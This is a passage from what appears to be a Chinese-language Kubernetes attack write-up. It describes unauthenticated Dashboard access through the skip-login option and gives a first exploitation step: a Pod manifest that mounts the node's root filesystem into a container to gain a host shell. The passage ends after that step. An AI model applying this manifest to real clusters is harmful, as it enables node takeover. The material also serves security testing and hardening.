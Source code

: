 [![](assets/1699842580-e2fc8ae85f71ef306ea29e86ed941125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171727-51097b46-7317-1.png)

### 控制面版

#### Dashboard未授权访问

**漏洞描述**  
K8s Dashboard默认是存在鉴权机制的，用户可以通过kubeconfig或者Token两种方式登录，当用户开启了enable-skip-login时可以在登录界面点击Skip跳过登录直接进入Dashboard，而且有时候可以直接访问K8s DashBoard，在这种情况下攻击者可以通过部署恶意Pod实现控制节点的目的

**漏洞复现**  
K8s DashBoard未授权访问：  
[![](assets/1699842580-65a9e09e7439892c222a1c90c170485c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172056-cdc60924-7317-1.png)  
**宿主Shell**  
Step 1：通过WEB UI界面创建一个pod，并将本地根目录挂载到pod的/mnt目录中

```plain
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```